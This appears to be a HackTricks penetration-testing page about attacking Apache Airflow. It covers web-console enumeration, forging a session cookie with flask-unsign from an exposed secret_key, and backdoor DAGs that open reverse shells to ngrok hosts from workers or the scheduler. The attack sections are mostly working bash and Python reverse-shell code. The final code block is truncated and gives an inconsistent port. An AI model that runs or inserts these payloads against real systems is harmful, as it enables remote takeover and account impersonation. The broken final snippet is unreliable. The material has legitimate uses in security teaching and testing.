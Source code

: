 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Apache Airflow

## Basic Information

[**Apache Airflow**](https://airflow.apache.org)  is used for the **scheduling and **_**orchestration of data pipelines**_** or workflows**. Orchestration of data pipelines refers to the sequencing, coordination, scheduling, and managing complex **data pipelines from diverse sources**. These data pipelines deliver data sets that are ready for consumption either by business intelligence applications and data science, machine learning models that support big data applications.

Basically, Apache Airflow will allow you to **schedule de execution of code when something** (event, cron) **happens**.

## Local Lab

### Docker-Compose

You can use the **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)  to launch a complete apache airflow docker environment. (If you are in MacOS make sure to give at least 6GB of RAM to the docker VM).

### Minikube

One easy way to **run apache airflo**w is to run it **with minikube**:

```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```

## Airflow Configuration

Airflow might store **sensitive information** in its configuration or you can find weak configurations in place:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Before start attacking Airflow you should understand **how permissions work**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attacks

### Web Console Enumeration

If you have **access to the web console** you might be able to access some or all of the following information:

* **Variables** (Custom sensitive information might be stored here)
* **Connections** (Custom sensitive information might be stored here)
* [**Configuration**](./#airflow-configuration) (Sensitive information like the **`secret_key`** and passwords might be stored here)
* List **users & roles**
* **Code of each DAG** (which might contain interesting info)

### Privilege Escalation

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.

```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```

### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:

```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```

### DAG Backdoor (RCE in Airflow scheduler)

If you set something to be **executed in the root of the code**, at the moment of this writing, it will be **executed by the scheduler** after a couple of seconds after placing it inside the DAG's folder.

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```

### DAG Creation

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


